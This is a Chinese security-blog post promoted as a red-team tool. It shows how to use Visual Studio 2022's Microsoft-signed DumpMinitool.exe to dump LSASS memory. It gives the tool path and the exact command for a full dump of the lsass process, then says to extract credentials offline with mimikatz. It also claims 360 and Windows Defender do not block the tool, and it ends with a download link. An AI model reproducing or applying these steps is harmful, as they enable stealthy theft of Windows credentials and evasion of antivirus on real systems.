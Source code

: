 #  红队工具 | Visual Studio2022微软白名单免杀dump lsass的免杀工具

HACK学习君  [ HACK学习君 ](javascript:void\(0\);)

**HACK学习君** ![]()

微信号 XHacker1961

功能介绍
HACK学习，专注于网络安全攻防与黑客精神，分享技术干货，代码审计，安全工具开发，实战渗透，漏洞挖掘，网络安全资源分享，为广大网络安全爱好者和从业人员提供一个交流学习分享的平台

____

__

收录于话题 #安全干货 21个

消息来源推特，推特博主：mr.d0x

  * 

    
    
    https://twitter.com/mrd0x/status/1511415432888131586?s=20&t=twOtT_clemvEYGQ9YdZ02w

可以自行安装Visual Studio2022，然后访问路径，把工具拖出来使用即可，也可以直接在文末获取下载地址  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210402.png)

  

转储 LSASS，该工具文件路径：

  * 

    
    
    C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\Extensions\TestPlatform\Extensions

文件名：DumpMinitool.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210415.png)

参数区分大小写  

使用命令：

  *   *   *   * 

    
    
    DumpMinitool.exe --file dump.txt --processId xxx --dumpType Full--file 输出的路径--processId lsass.exe进程的ID--dumpType 方式

查看lsass进程ID

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210417.png)

dump完成后，再使用mimikatz进行离线解密即可  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210418.png)

mimikatz

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210420.png)

微软的数字签名

![]()

  

免杀测试：360和Win10自带的defender杀软均不拦截。

  

沙箱检测

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210421.png)

微步在线  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210423.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210425.png)  

  

 **下载地址：**

 **  
**

链接：https://pan.baidu.com/s/18IRSjJaM4d2fwjmK9zfQFg

提取码：tfz4

 **  
**

 **点赞，转发，在看**

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220412210426.png)

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

